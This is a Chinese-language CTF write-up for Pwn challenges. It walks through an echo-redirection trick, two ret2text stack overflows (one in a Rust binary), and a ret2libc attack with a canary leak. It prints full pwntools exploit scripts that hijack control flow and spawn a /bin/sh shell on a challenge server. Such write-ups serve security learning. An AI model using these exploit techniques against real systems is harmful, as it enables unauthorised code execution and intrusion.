

# <font style="color:#601BDE;">P</font><font style="color:#AE146E;">wn</font>
## <font style="color:#5C8D07;">Pwn 入门指北</font>
附件就是 wp，照着做就行，懒得写了。

## <font style="color:#5C8D07;">nc就行</font>
一堆指令都被删了，但是我们的 echo 还在，我们可以重定向把 flag 里面的内容搞出来。


## <font style="color:#5C8D07;">ret2text</font>


有两层，第一层是个 check，传入的内容需要等于 0xDEADBEAF。

第二层是个栈溢出，可以找到后门函数，直接 ret2text。

[!]第一层需要注意端序问题。

```python
from pwn import *
context.log_level = "debug"
p = remote("223.129.86.2",34070)
message = b'\xAF\xBE\xAD\xDE'
p.recvuntil(b"pwntools?")
p.send(message)
p.recvuntil(b"deadbeaf")
backdoor = 0x401196
ret = 0x4011B9
payload = b'A' * 32 + b'B' * 8 + p64(backdoor)
p.sendline(payload)
p.interactive()


```


## <font style="color:#5C8D07;">babyrust</font>
第一次做 rust pwn，很有意思。

pwn 开头的应该都是自建函数，ida 里面交叉引用看一下，发现 makefirst 函数没有被调用过。


看一下里面的逻辑，似乎是直接把 /flag 的内容读出来。

vulnerable_function 里面有栈溢出，可以直接 ret2text 到 make_first 函数，把 flag 读出来。

填充长度不太好看，这里偷懒直接爆破了，试出来是 216 + 8。

```python
from pwn import *
context.log_level = "debug"
p = remote("223.129.86.2",34071)
backdoor = 0x43ADE0
ret = 0x43AFE7
payload = b'A' * 208 + b'B' * 8 + p64(ret) + p64(backdoor)
p.recvuntil(b'Enter your input: ')
p.sendline(payload)
p.interactive()


```


## <font style="color:#5C8D07;">ret2libc</font>
如题，就是个 ret2libc + canary 的板子。


```python
from pwn import *
p=remote("223.129.86.2",34084)
libc=ELF('./libc.so.6')
payload=b'a'*0x38+b'b'
p.sendlineafter(b'> ',str(1))
p.sendafter(b'e!\n',payload)
p.recvuntil(b'b')
canary=u64(p.recv(7).rjust(8,b'\x00'))
print(hex(canary))
heap_base=u64(p.recvuntil(b'. Do')[-17:-4].ljust(8,b'\x00'))
print(hex(heap_base))
pop_rdi_ret=0x1227
payload=b'a'*0x38+p64(canary)+p64(0)+b'\x42'
p.sendafter(b'agian?\n',b'y')
p.send(payload)
payload=b'a'*0x58
p.sendlineafter(b'> ',str(1))
p.sendafter(b'e!\n',payload)
libc_base=u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))-0x29d90
print(hex(libc_base))
p.sendafter(b'agian?\n',b'y')
ret_addr=libc_base+0x29139
pop_rdi_ret=libc_base+0x2a3e5
sys_addr=libc_base+libc.symbols['system']
binsh=libc_base+next(libc.search(b'/bin/sh'))
payload=b'a'*0x38+p64(canary)+p64(0)+p64(ret_addr)+p64(pop_rdi_ret)+p64(binsh)+p64(sys_addr)
p.send(payload)
p.interactive()


```

# <font style="color:#601BDE;"></font>
